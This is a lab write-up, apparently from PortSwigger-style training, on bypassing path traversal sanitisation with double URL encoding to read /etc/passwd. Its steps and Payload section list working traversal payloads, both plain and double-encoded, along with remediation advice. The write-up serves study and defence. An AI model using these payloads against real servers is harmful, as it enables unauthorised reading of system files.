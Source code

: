 ## 🧪 Lab: File Path Traversal - Traversal Sequences Stripped with Superfluous URL-decode  
**Level**: Practitioner  
**Date**: June 14, 2025  
**Goal**: Read `/etc/passwd` despite sanitization and double encoding defenses.

---

### 🧰 Tools
- Burp Suite (Repeater / URL Encoder)

---

### 🧭 Steps

1. **Intercept product image URL**  
   - Capture image request from product page:
     ```
     GET /image?filename=218.png
     ```

2. **Send request to Repeater**

3. **Try standard payloads**  
   - Absolute path:
     ```
     /etc/passwd
     ```
   - Sequential path:
     ```
     ../../../etc/passwd
     ```
   - Recursive/obfuscated path:
     ```
     ....//....//....//....//etc/passwd
     ```
   - None of these work due to early input sanitization.

4. **Use clean traversal payload**

```
../../../../etc/passwd
```



5. **URL encode the payload once**  
- Result:
  ```
  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
  ```

6. **URL encode it again (double encoding)**  
- Final payload:
  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```

7. **Send the double-encoded payload**  
- Lab is successfully solved and `/etc/passwd` contents are returned.

---

### 💣 Payload

  ```
  %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
  ```
---

### 💡 What I Learned
- Application sanitizes traversal sequences **before processing the input**.
- Basic and recursive payloads are stripped early — only **double encoding** works.
- URL encoding tricks can bypass flawed sanitization routines.
- Reinforced the importance of **server-side input validation**, not just client-side filters.

---

### 🔒 Remediation
- Sanitize and validate user input server-side.
- Apply **deep decoding** detection to identify malicious inputs.
- Prevent double-encoded payloads from being parsed into dangerous paths.
- Avoid exposing URLs for internal file access.

---

### 📌 Notes
- This lab inspired me to build a dedicated GitHub repo with common traversal payloads — from absolute to recursive and encoded variants.
- Learned to use Burp Suite Encoder effectively.
